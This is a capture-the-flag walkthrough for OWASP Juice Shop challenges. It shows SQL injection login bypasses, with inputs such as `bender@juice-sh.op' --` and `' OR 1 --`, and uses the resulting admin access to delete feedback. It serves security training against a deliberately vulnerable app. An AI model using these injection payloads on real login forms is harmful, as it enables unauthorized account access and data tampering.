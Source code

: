## Login Bender

> Log in with Bender's user account. (Difficulty Level: 3)

Login Admin worked because the admin was the first user in the database. Now we have to adjust our strategy to work with the user Bender (email: `bender@juice-sh.op `)

Let's look at the query we used last time.

```sql
SELECT * FROM Users WHERE email = '' OR 1 -- AND password = 'THE PASSWORD HASH' AND deletedAt IS NULL
```

Is there anything here that we can change to make sure it finds the user with the email `bender@juice-sh.op`.

Let's try something like:

```sql
SELECT * FROM Users WHERE email = 'bender@juice-sh.op' -- AND password = 'THE PASSWORD HASH' AND deletedAt IS NULL
```

meaning we need to input `bender@juice-sh.op' --` into the login box.

Then, we get the flag! Success!

## Login Jim

> Log in with Jim's user account. (Difficulty Level: 3)

Let's try the same thing with the email `jim@juice-sh.op` instead:

```sql
SELECT * FROM Users WHERE email = 'jim@juice-sh.op' -- AND password = 'THE PASSWORD HASH' AND deletedAt IS NULL
```

Where we need to enter: `jim@juice-sh.op' --` in the login box. The password doesn't matter.

Yup, it's that easy.

## Admin Section

> Access the administration section of the store. (Difficulty Level: 2)

After using `' OR 1 --` to login as the administrator, you can head to `/administration` to get your flag.

## Five-Star Feedback

> Get rid of all 5-star customer feedback. (Difficulty Level: 2)

From the `/administration` page, delete the one 5 star rating to get your flag.

## Database Schema
